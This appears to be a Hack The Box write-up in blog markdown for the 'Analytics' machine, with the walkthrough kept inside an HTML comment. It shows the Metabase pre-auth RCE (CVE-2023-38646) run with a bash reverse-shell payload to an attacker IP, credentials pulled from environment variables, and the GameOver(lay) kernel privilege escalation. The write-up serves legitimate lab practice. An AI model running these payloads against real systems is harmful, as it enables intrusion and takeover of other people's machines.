 ```yaml
---
title: HTB - Analytics
date: 2023-12-29
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, analytics, cve-2023-38646, cve-2023-32629]
img_path: /assets/htb/fullpwn/analytics/
published: true
image:
    path: room_banner.png
---
```


## Overview

|:-:|:-:|
|Machine|[Analytics](https://app.hackthebox.com/machines/569)|
|Rank|Easy|
|Time|-|
|Focus|CVEs|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- ## Information gathering

```shell
# port-scanning
$ sudo nmap analytics -T4 --min-rate 10000 -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
```

## Initial foothold

According to Nmap's output, the HTTP server redirects us to `http://analytical.htb/`, so we have to add it to our `/etc/hosts` file:

  ![](etc_hosts.png){: .normal }

  ![](home.png)

When clicking on `Login` we are redirected to `data.analytical.htb`:

  ![](analytical_login.png)

Let's us add this to `/etc/hosts` as well:

  ![](etc_hosts_1.png){: .normal }

  ![](home_data.png){: .normal width="70%"}

Viewing the page source, we can find Metabase's version:

  ![](metabase_version.png)

Searching Google for a public exploit we find the [Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/Pyr0sec/CVE-2023-38646). This requires the value of the `setup token` which can be found in the `/api/session/properties` directory:

  ![](setup-token.png){: .normal }

All we have to do now, is to open a listener and run the PoC with a Bash reverse shell payload:

  ```shell
  # setting up a listener
  $ nc -lvnp 1337
  listening on [any] 1337 ...
  ```

  ```shell
  # executing the PoC
  $ python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.6/1337 0>&1"
  ```

  ```shell
  # catching the reverse shell
  $ nc -lvnp 1337
  listening on [any] 1337 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.11.233] 43200
  bash: cannot set terminal process group (1): Not a tty
  bash: no job control in this shell
  59a5ee253db5:/$
  ```

## Privilege escalation

After exploring the environment, we can find some credentials listed on the `env` variable:

  ```shell
  59a5ee253db5:/$ env
  env
  SHELL=/bin/sh
  MB_DB_PASS=
  HOSTNAME=59a5ee253db5
  LANGUAGE=en_US:en
  MB_JETTY_HOST=0.0.0.0
  JAVA_HOME=/opt/java/openjdk
  MB_DB_FILE=//metabase.db/metabase.db
  PWD=/
  LOGNAME=metabase
  MB_EMAIL_SMTP_USERNAME=
  HOME=/home/metabase
  LANG=en_US.UTF-8
  META_USER=metalytics # Username
  META_PASS=An4lytics_ds20223# # Password
  MB_EMAIL_SMTP_PASSWORD=
  USER=metabase
  SHLVL=4
  MB_DB_USER=
  FC_LANG=en-US
  LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
  LC_CTYPE=en_US.UTF-8
  MB_LDAP_BIND_DN=
  LC_ALL=en_US.UTF-8
  MB_LDAP_PASSWORD=
  PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
  MB_DB_CONNECTION_URI=
  JAVA_VERSION=jdk-11.0.19+7
  _=/usr/bin/env
  OLDPWD=/var
  ```

We can use them to log in to the SSH server and right away find the `user.txt`:

  ```shell
  $ ssh metalytics@analytics
  # pass: An4lytics_ds20223#
  metalytics@analytics:~$ ls -la
  total 36
  drwxr-x--- 4 metalytics metalytics 4096 Aug  8 11:37 .
  drwxr-xr-x 3 root       root       4096 Aug  8 11:37 ..
  lrwxrwxrwx 1 root       root          9 Aug  3 16:23 .bash_history -> /dev/null
  -rw-r--r-- 1 metalytics metalytics  220 Aug  3 08:53 .bash_logout
  -rw-r--r-- 1 metalytics metalytics 3771 Aug  3 08:53 .bashrc
  drwx------ 2 metalytics metalytics 4096 Aug  8 11:37 .cache
  drwxrwxr-x 3 metalytics metalytics 4096 Aug  8 11:37 .local
  -rw-r--r-- 1 metalytics metalytics  807 Aug  3 08:53 .profile
  -rw-r----- 1 root       metalytics   33 Dec 29 16:56 user.txt
  -rw-r--r-- 1 metalytics metalytics   39 Aug  8 11:30 .vimrc
  ```

There isn't anything of interest laying around, so we can check the kernel's version and look for a public exploit:
  
  ```shell
  metalytics@analytics:/$ uname -a
  Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
  ```

There is the [GameOver(lay) Ubuntu Privilege Escalation](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which we can copy and paste on our target from the `/tmp` directory:

  ```shell
  metalytics@analytics:/$ cd /tmp
  metalytics@analytics:/tmp$ nano exploit.sh
  metalytics@analytics:/tmp$ chmod +x exploit.sh
  metalytics@analytics:/tmp$ ./exploit.sh
  [+] You should be root now
  [+] Type 'exit' to finish and leave the house cleaned
  root@analytics:/tmp# id
  uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
  root@analytics:/tmp# ls /root/
  root.txt
  ``` -->

<figure>
    <img src="machine_pwned.png"
    alt="Machine pwned" >
</figure>